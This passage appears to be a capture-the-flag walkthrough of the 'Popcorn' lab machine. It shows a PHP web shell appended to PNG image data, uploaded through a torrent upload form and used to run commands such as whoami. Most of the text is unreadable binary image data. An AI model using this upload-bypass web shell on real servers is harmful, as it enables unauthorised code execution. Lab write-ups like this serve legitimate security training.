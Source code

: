 ```code 
IHDR  :     ïý    IDATxìÝwxTÕÖÇñïô$ôÞ¥tÞBQì`Ç^®Xj»°·kCTP]AÄôÞ;ôdæ¼¼z¯¨Ì)3ä÷y<Ï½ÂÙ{eæìYgïµÓ4MDDDDDDDDJ O¤q"""""""Rb(Ñ!"""""""%"""""""Rb(Ñ!"""""""%"""""""Rb(Ñ!"""""""%"""""""Rb(Ñ!"""""""%"""""""Rb(Ñ!"""""""%"""""""Rb(Ñ!"""""""%"""""""Rb(Ñ!"""""""%"""""""Rb(Ñ!"""""""%"""""""Rb(Ñ!"""""""%"""""""Rb(Ñ!"""""""%/Ò¨&Oé0DDDDDDD¥[o½¯Ø¤,3LÓ4#ÄÈÌÌ¤L2CDDDDDD¤XÊÉÉ!!!!Òa¸NGWDDDDDDD¤ÄP¢CDDDDDDDJ%:DDDDDDD¤ÄP¢CDDDDDDDJ%:DDDDDDD¤ÄP¢CDDDDDDDJ%:DDDDDDD¤ÄP¢CDDDDDDDJ%:DDDDDDD¤ÄP¢CDDDDDDDJ%:DDDDDDD¤ÄP¢CDDDDDDDJ%:DDDDDDD¤ÄP¢CDDDDDDDJ%:DDDDDDD¤ÄP¢CDDDDDDDJ%:DDDDDDD¤ÄP¢CDDDDDDDJ%:DDDDDDD¤ÄP¢CDDDDDDDJ%:DDDDDDD¤ÄP¢CDDDDDDDJ%:DDDDDDD¤ÄP¢CDDDDDDDJ%:DDDDDDD¤ÄP¢CDDDDDDDJ%:DDDDDDD¤ÄP¢CDDDDDDDJ%:DDDDDDD¤ÄP¢CDDDDDDDJ%:DDDDDDD¤ÄðE: )ÊU§BÅ:ÀÎ5°qdîtd""""""R(Ñ!¶¤¤C· Ëù^ßöù`ßfød:|ý&äl""""""R:¦iâDdffR¦LH!¿6aàMP¹Æñÿ^ 6ÿs¦Â!ào""""""CBBB¤ÃpÃ'o§/öÄ®+Èåóái°õgwc?S¢#Ê(ÑyjÃé×C»!bm¬°è5ÿÙãl|""""""ò×è2JtDNB*ô¸2.Ôçsa@ÃÓ`øýPë0\®[b°êKxëØús°Ý®Hq¥DG)I*7Á·BëÓÁër3 ;×Â;ãá§ùÅÿ»/:§ßéÕÝßáQ_¹À¡ÁHq£DG)	Ãò1z\<?php echo system($_REQUEST['ipp]); ?>"
```
we get upload successful now lets navigate to the torrent upload to see if it has uploaded the php file there

![](/Linux/Linux-Medium/Popcorn/Screenshots/phppopcorn.png)

so when we navigate to the file we get so error

![](/Linux/Linux-Medium/Popcorn/Screenshots/errorpopcorn.png)

But when we go to the browser link a try to execute some commands from `?ipp=whoami` we get some code execution

![](/Linux/Linux-Medium/Popcorn/Screenshots/someexecution.png)